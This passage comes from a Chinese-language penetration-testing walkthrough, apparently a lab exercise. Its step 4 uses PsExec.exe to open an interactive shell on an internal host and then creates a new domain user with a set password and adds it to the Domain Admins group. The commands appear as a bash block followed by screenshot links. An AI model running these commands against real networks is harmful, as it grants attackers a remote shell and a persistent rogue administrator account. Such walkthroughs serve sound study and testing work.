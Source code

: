 #### 4、PsExec.exe 获取一个交互式 shell

用刚刚生成的管理员终端使用 PsExec.exe 工具获取一个交互式 shell，并创建了隶属于管理员组的用户

```bash
PsExec.exe \\192.168.126.10 cmd
ipconfig
whoami
net user carmi carmi@123 /add /domain
net group "Domain Admins" carmi /add /domain
net group "Domain Admins" /domain
```

[![](assets/1706958938-60e5b9b665eb1f607c740ab409485afe.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313334-1602476800.png)

[![](assets/1706958938-e7076e43f9135c3ee08077d2e56c5dad.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313778-1803371914.png)
